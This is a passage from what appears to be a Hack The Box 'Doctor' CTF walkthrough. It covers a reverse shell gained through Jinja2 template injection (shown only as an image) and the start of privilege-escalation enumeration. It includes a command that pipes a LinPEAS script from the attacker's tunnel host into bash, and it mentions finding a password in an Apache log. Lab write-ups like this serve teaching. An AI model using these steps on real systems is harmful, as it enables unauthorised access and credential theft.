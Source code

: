![](/assets/images/htb-doctor/18_doctor_ssti_jinja2_rev_shell.png)

Success! This results in a reverse shell as the `web` users. However, this is just out foothold and the account does not have access to the user flag, and so we will need to begin to enumerate the system to look for a way to get more access.

## Hunting for the Next User (User Flag)
There is a home directory for a user named `shaun`. We can see the `user.txt` file in Shaun's home directory, but we do not have access to cat it out. As an initial step in enumeration, we can try running the [LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) script on the machine.

Download the file into your working directory and then start a python web server from the directory.

``` bash
python3 -m http.server 80
```

We can now run it by requesting the file with curl and then just piping it into bash.

``` bash
curl http://<YOUR TUNNEL IP>/linPEAS.sh | bash
```

This may take a few minutes to run. When it finishes, we find what appears to be a password in `/var/log/apache2/backup`.

![](/assets/images/htb-doctor/19_doctor_shaun_pass.png)
